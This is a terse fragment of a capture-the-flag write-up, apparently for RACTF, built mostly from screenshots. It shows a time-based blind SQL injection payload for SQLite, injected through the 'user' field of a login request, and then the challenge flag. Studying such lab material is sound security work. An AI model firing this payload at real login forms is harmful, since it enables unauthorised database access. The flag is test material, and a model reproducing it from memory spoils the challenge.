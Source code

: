 ![image-20200608011614283](images/image-20200608011614283.png)



Time-based Blind

Title: SQLite > 2.0

Payload: user=admin' OR 9766=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- FdpX&pass=admin

![image-20200608011853129](images/image-20200608011853129.png)

Flag: **ractf{Y0u_B3tt3r_N0t_h4v3_us3d_sqlm4p}**

